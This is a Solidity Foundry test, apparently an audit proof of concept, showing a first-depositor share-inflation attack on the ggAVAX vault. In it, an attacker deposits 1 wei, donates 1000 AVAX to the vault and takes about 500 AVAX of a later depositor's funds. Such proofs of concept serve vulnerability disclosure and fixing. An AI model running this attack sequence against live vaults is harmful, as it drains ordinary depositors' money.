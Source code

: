 ```
	function testShareInflation() public {
		uint256 depositAmount = 1;
		uint256 aliceDeposit = 2000 ether;
		uint256 donationAmount = 1000 ether;
		vm.deal(bob, donationAmount  + depositAmount);
		vm.deal(alice, aliceDeposit);
		vm.warp(1672876799);

		// create new ggAVAX
		ggAVAXImpl = new TokenggAVAX();
		ggAVAX = TokenggAVAX(deployProxy(address(ggAVAXImpl), address(guardian)));
		ggAVAX.initialize(store, ERC20(address(wavax)));

		// Bob deposits 1 WEI of AVAX
		vm.prank(bob);
		ggAVAX.depositAVAX{value: depositAmount}();
		// Bob transfers 1000 AVAX to vault
		vm.startPrank(bob);
		wavax.deposit{value: donationAmount}();
		wavax.transfer(address(ggAVAX), donationAmount);
		vm.stopPrank();
		// Bob Syncs rewards
		ggAVAX.syncRewards();

		// 1 second has passed
		// This can range between 0-14 days. Every seconds, exchange rate rises
		skip(1 seconds);

		// Alice deposits 2000 AVAX
		vm.prank(alice);
		ggAVAX.depositAVAX{value: aliceDeposit}();

		//Expectet revert when any depositor deposits less then 1000 AVAX
		vm.expectRevert(bytes4(keccak256("ZeroShares()")));
		ggAVAX.depositAVAX{value: 10 ether}();

		// Bob withdraws maximum assests for his share
		uint256 maxWithdrawAssets = ggAVAX.maxWithdraw(bob);
		vm.prank(bob);
		ggAVAX.withdrawAVAX(maxWithdrawAssets);

		//Validate bob has withdrawn 1500 AVAX
		assertEq(bob.balance, 1500 ether);

		// Alice withdraws maximum assests for her share
		maxWithdrawAssets = ggAVAX.maxWithdraw(alice);
		ggAVAX.syncRewards(); // to update accounting
		vm.prank(alice);
		ggAVAX.withdrawAVAX(maxWithdrawAssets);

		// Validate that Alice withdraw 1500 AVAX + 1 (~500 AVAX loss)
		assertEq(alice.balance, 1500 ether + 1);
	}
```

